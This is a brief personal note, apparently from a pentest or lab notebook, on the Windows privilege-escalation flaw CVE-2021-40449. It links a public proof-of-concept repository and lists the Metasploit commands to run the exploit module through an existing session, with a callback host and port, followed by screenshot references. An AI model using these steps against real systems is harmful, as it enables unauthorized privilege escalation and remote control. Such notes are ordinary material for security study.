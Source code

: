 # CVE-2021-40449
---
- https://github.com/ly4k/CallbackHell
- `use exploit/windows/local/cve_2021_40449`
- `set session 1`
- `set lhost tun0`
- `set lport 5555`
- `run`
	- ![[Pasted image 20250424214315.png]]
	- ![[Pasted image 20250424214332.png]]